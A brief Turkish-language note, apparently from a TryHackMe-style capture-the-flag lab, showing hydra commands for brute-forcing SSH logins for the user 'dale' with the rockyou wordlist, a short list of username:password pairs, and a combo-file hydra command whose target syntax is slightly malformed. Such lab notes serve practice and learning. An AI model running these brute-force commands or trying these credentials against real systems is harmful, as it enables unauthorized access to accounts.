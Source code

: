 *** ssh için dale ismi ile bruteforce ***

``` bash
hydra -l dale -P /usr/share/wordlists/rockyou.txt  ssh://team.thm
```
veya

``` bash
hydra -l dale -P /usr/share/wordlists/rockyou.txt  ssh://10.10.10.10
```

claire-r:Password1
chris-r:letmein
jill-v:sunshinel
barry-b:sandwich

``` bash
hydra -C file ssh//10.10.1.1 -T4 
```
